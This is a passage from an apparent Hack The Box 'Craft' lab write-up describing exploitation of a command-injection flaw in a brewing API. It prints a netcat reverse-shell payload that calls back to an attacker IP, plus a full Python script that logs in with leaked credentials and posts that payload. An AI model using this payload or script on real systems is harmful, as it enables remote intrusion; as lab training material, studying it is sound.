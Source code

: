 ```python
```

We could use `curl` or `postman` to send requests to the API, but if we continue to look through the git repo we see in commit `10e3ba4f0a09c778d7cec673f28d410b73455a86` that they've got a test script already to post new brews.

![Added test](/posts/images/hack-the-box-craft-writeup/added_test.png)
**Figure 5:** add test script you say!?

Download the test script from here and we'll use it to send a payload to the app. `https://gogs.craft.htb/Craft/craft-api/src/10e3ba4f0a09c778d7cec673f28d410b73455a86/tests/test.py`


# Exploitation

## Initial Foothold
So far we've found an API, a `git` repository containing Python code which seems vulnerable to command injection, as well as a commit containing credentials and a test script.

Developing the exploit isn't easy. We can test the code locally but we don't know exactly what's installed on the machine. This process required developing several payloads that ran correctly locally, only to fail on the box. As it turns out, the box doesn't have `bash` installed on it. Eventually we're able to gain a reverse shell using netcat with the following payload sent to `avb`.

```python
"""__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.186 4444 >/tmp/f") """
```

Here's the modified `test.py` script with the payload to call our reverse shell.

```python
#!/usr/bin/env python

import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

payload = """__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.186 4444 >/tmp/f") """

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }
# create a sample brew with real shell code... should exploit!
print("Create exploit brew!")
brew_dict = {}
brew_dict['abv'] = payload
brew_dict['name'] = 'bullshit199iii1'
brew_dict['brewer'] = 'bullshit1991'
brew_dict['style'] = 'bullshi1991t'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```
